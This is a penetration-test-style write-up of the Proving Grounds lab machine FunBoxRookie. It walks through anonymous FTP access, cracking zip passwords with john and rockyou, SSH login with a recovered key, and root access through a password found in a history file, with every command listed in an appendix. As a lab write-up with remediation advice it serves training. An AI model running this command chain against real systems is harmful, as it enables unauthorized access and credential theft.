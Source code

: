 # Penetration Test Report for Proving Grounds - FunBoxRookie
**Author:** Joey Melo
**Date:** March 18, 2022
**Client:** Proving Grounds
**Host:** 192.168.189.107 (FunBoxRookie)

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized clients is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the FunBoxRookie network. The tester is tasked with following methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the FunBoxRookie network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the FunBoxRookie network. When performing the attacks, the tester was able to gain access to the machine, primarily due to FTP misconfigurations and weak password policy. The host has been sucessfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
**TCP:** 21, 22, 80
### FTP Enumeration
Upon manual enumeration of the available FTP service, the tester noticed it had anonymous access enabled which allowed the tester to read all files in the FTP folder.
The content comprised of multiple password-protected zip files and an encoded message from admin informing that these files contain ssh keys.
<ss1>

## Initial Access
### Vulnerability Explanation
The FTP server allows anonymous access to sensitive files. Although these files are encrypted with password protection, the passwords used are weak and can be guessed with a simple word list. 
### Vulnerability Fix
Disable anonymous access to the FTP server and enforce a stronger password policy in the files. The tester recommends changing the files passwords immediately.
### Attack Walkthrough
Initial access was obtained to the FTP server with anonymous credentials and all files were transfer to the tester's machine.
```bash
ftp anonymous@192.168.189.107
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
```
The tester was able to decode the *.@admin* message and read its contents, which revealed that the zip files contain keys to the SSH server.
```bash
cat .@admins | base64 -d
```
<ss2>

Then, using a simple wordlist, two passwords were cracked, which granted access to the SSH server. The tester decided to connect to the *tom* user.
```bash
for f in `ls .zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire
ssh -i id_rsa tom@192.168.189.107 
```
<ss3>

As proof of exploitation, the tester captured the *local.txt* flag.
<user-flag>

## Privilege Escalation
### Vulnerability Explanation
After establishing a foothold on the tagert, the tester noticed that the compromised user (*tom*) was a member of the *sudo* group, which allows him to execute commands with high privileges.
The tester also notice a *.mysql_history* file in the user's home directory, which contained a password. 
### Vulnerability Fix
Unless the *tom* user needs to execute privileged commands, remove him from the *sudo* group or limit its access to only specific applications. Morever, the tester recommends either not storing plaintext passwords in history files or backing up and cleaning these files frequently to avoid leaking sensitive information.
### Attack Walkthrough
A simple user and directory enumeration revealed that *tom* is a member of the *sudo* group, and his home directory contains the *.mysql_history* file.
```bash
id
ls -la
```
<ss4>

The tester then successfully reused the captured password to execute high-privileged commands and obtain a *root* shell.
```bash
sudo su
```
<root-flag>

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.189.107

# Get FTP files
ftp anonymous@192.168.189.107 # blank password
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
cat .@admins | base64 -d

# Crack zip files
for f in `ls .zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire

# Initial access
ssh -i id_rsa tom@192.168.189.107 
pwd; id; cat local.txt; ifconfig

# Privilege escalation
ls -la
cat .mysql_history # pwd=xx11yy22!
sudo su
cd /root
pwd; id; cat proof.txt; ifconfig
```
